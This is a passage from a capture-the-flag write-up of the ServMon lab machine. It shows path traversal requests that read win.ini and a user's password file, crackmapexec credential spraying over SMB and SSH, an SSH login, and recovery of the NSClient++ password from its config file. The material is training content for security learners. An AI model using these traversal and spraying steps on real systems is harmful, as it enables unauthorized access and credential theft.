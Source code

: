 The vulnerability works on this service and it is possible to read files from the system:
```
GET /../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: 10.10.10.184
(...)
```

In _Confidential.txt_ it said that there is a _Passwords.txt_ file on _Nathans_ desktop:
```
GET /../../../../../../../../../../../../Users/Nathan/Desktop/Passwords.txt
```
```
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

Lets try the passwords for the users _Nadine_ and _Nathan_:
```
crackmapexec smb 10.10.10.184 -u servmon_users.txt -p servmon_passwords.txt

crackmapexec ssh 10.10.10.184 -u servmon_users.txt -p servmon_passwords.txt
```
```
SMB         10.10.10.184    445    SERVMON          [+] ServMon\Nadine:L1k3B1gBut7s@W0rk
```

One of the passwords work for the user _Nadine_ and we are able to enumerate SMB shares and SSH onto the box.

Enumerating the SMB shares:
```
smbclient -U Nadine -L //10.10.10.184
```
```
Sharename       Type      Comment
---------       ----      -------
ADMIN$          Disk      Remote Admin
C$              Disk      Default share
IPC$            IPC       Remote IPC
```

The SMB shares are not interesting, so lets access the box with SSH:
```
ssh nadine@10.10.10.184
```

## Privilege Escalation

We know that **NSClient++** runs on the box and there are is a **Privilege Escalation** vulnerability for this software.

The installation directory is in _C:/Program Files/NSClient++_ and the file _nsclient.ini_ contains a password:
```
password = ew2x6SsGTxjRwXOT

allowed hosts = 127.0.0.1
(...)
```
